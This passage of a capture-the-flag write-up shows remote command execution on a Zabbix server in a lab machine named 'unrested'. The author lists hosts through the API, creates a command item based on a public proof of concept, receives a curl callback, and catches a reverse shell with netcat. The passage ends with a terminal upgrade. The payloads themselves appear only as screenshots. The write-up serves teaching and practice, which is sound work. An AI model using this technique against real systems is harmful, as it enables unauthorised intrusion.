 ![image-20250228193150225](/img/image-20250228193150225.png)

It works!

![image-20250228193402091](/img/image-20250228193402091.png)

#### RCE POC

To execute a command, I need to have a `hostid`. I’ll use the `host.get` API to list the hosts (which now works as admin):

![image-20250228194431256](/img/image-20250228194431256.png)

I’ll need the `hostid` and the `interfaceid` for the command execution.

To create the item, I’ll use the command from the [script POC](https://github.com/freeworkaz/zabbix_test/blob/master/zabbix_shell_create_on_Linux.py). I’ll start with a simple `curl` to make sure it works:

![image-20250228194749848](/img/image-20250228194749848.png)

It takes a minute or so to process, but then I get a request at my server:

```
10.10.11.50 - - [01/Mar/2025 00:48:02] code 404, message File not found
10.10.11.50 - - [01/Mar/2025 00:48:02] "GET /rce HTTP/1.1" 404 -

```

#### Reverse Shell

I’ll update the command to a reverse shell:

![image-20250228194923402](/img/image-20250228194923402.png)

After a short wait, I get a shell:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.50 60818
bash: cannot set terminal process group (2809): Inappropriate ioctl for device
bash: no job control in this shell
zabbix@unrested:/$

```

I’ll upgrade it using the [standard trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

zabbix@unrested:/$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
zabbix@unrested:/$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
zabbix@unrested:/$ 

```
